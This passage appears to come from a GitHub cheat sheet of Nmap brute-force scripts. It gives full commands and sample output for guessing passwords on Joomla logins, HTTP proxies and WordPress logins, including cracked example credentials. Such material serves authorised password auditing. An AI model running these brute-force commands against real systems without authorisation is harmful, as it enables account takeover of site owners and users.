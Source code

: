
### HTTP-Joomla - Brute-Force
_Performs Brute-Force password auditing against Joomla web CMS installations_
     
     root@hostname: ~/ # nmap -sV --script http-joomla-brute --script-args 'userdb=users.txt,passdb=passwds.txt,http-joomla-brute.hostname=domain.com,http-joomla-brute.threads=3,brute.firstonly=true' 192.168.1.12


     |PORT     STATE SERVICE REASON
     |80/tcp open  http    syn-ack
     | http-joomla-brute:
     |   Accounts
     |     xdeadbee:i79eWBj07g => Login correct
     |   Statistics
     |_    Perfomed 499 guesses in 301 seconds, average tps: 0



### HTTP-Proxy - Brute-Force
_Performs Brute-Force password guessing against HTTP proxy servers_
     
     root@hostname: ~/ # nmap --script http-proxy-brute -p 8080 192.168.1.12

     |PORT     STATE SERVICE
     |8080/tcp open  http-proxy
     | http-proxy-brute:
     |   Accounts
     |     patrik:12345 - Valid credentials
     |   Statistics
     |_    Performed 6 guesses in 2 seconds, average tps: 3


### HTTP-WordPress - Brute-Force
_Performs Brute-Force password auditing against Wordpress CMS/blog installations_
     
     root@hostname: ~/ # nmap -sV --script http-wordpress-brute --script-args 'userdb=users.txt,passdb=passwds.txt,http-wordpress-brute.hostname=domain.com,http-wordpress-brute.threads=3,brute.firstonly=true' 192.168.1.12

     |PORT     STATE SERVICE REASON
     |80/tcp   open  http    syn-ack
     | http-wordpress-brute:
     |   Accounts
     |     0xdeadb33f:god => Login correct
     |   Statistics
     |_    Perfomed 103 guesses in 17 seconds, average tps: 6
